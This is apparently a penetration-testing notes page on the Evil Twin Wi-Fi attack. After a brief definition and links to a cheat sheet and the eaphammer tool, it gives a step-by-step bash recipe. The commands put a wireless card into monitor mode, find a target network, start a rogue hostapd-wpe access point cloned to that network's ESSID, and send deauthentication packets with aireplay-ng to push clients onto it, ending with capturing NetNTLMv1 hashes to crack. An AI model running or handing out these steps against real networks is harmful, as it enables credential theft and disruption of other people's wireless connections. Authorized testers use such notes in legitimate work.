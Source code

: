 # EvilTwin

{% hint style="info" %}
An evil twin is a **fraudulent Wi-Fi access point** that appears to be legitimate but is set up to eavesdrop on wireless communications.

The evil twin is the wireless LAN equivalent of the **phishing** scam.
{% endhint %}

{% embed url="https://cheatsheet.haax.fr/wireless/rogue_ap#evil-twin-attack" %}
Evil Twin CheatSheet - Source
{% endembed %}

{% embed url="https://github.com/s0lst1c3/eaphammer" %}
Tool for Evil Twin
{% endembed %}

```bash
# 1/ Start monitoring mode
# If you plan to use deauth attack, connect the 2 eth interfaces at the same time
# To avoid having wlan0mon and wlan0 (it can conflict)
sudo airmon-ng start wlan0

# 2/ If process are blocking the monitoring mode, kill them
sudo airmon-ng check kill
sudo kill <PID>

# 3/ Get the target AP (ESSID)
# Your target can have multiples AP, and so multiples MAC addresses
# They can run on differents channels
sudo airodump wlan0mon

# 4/ Then set the target in the configuration file
sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
ssid=<ESSID>

# 5/ Start AP
# You will only get people that newly connects to the target AP
# If you want to get people already connected, you need to push the attack further with deauth
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# 6/ Start the second ethernet interface
sudo airmon-ng start wlan1

# 7/ Deauth (In another terminal)
# Based on the differents ESSID and channels found in step 3
# -0 is the number of deauth packet sent
sudo aireplay-ng -0 10 -a <mac address> -c <channel>

# Then wait for credz \o/
# You will probably get NetNTLMv1 hashes you will need to crack
```
